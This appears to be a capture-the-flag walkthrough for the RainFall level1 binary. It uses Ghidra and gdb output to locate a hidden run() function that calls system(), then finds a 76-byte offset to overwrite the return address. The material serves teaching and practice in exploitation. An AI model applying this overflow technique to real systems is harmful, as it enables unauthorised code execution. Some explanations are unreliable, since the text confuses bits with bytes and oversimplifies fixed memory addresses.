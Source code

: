 ### How to find run() function ?

By disassembling level1 executable in ghidra we have a function section that allow us to visualize all functions, and run appears here, on the left section: (ghidra_run.png)

![Ghidra result](https://github.com/kbarbry/RainFall/blob/main/level1/Resources/ghidra_run.png)

### How to find the 0x08048444 address ?

Again, we used ghidra to analyze the level0 file: (ghidra_run.png)

![Ghidra result](https://github.com/kbarbry/RainFall/blob/main/level1/Resources/ghidra_run.png)

We could also have used gdb and the disas command that gives us:
```sh
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret    
End of assembler dump.
```

We can see the address of the first push asm instruction, which is 0x08048444.

### How to know where to place the address and in which format is the payload?

By trying again and again, we tried a payload full of A, we knew from the ghidra analysis that the buffer was 76 bits long: (ghidra_main.png)

![Ghidra result](https://github.com/kbarbry/RainFall/blob/main/level1/Resources/ghidra_main.png)

So we tried with 76, 80, 84, to see when the address was edited:

```sh
# With 76 A precisely
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload

Program received signal SIGILL, Illegal instruction.
0xb7e45400 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6

# With 80 A
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()

# Just to make sure
# With 76 A + 4 B
(gdb) run < /tmp/payload
Starting program: /home/user/level1/level1 < /tmp/payload

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

With those tests we can identify the precise location where we want to replace the return address, which are the 4 bits next to the 76 buffer.

The little endian synthax asks us to write the addresses upside down in hexadecimal shell values.

### How do we know that this address will always be the same ?

In a x64, 32bit linux architecture, the different sections of the memory are always starting at the same address, and the starting address of the code section (text) is 0x08048000 (again in this architecture).
For the same program, the offset between the declaration of the function and the beggining of the program will always be the same, therefore, the function call will always be at the same address, here 0x08048444.
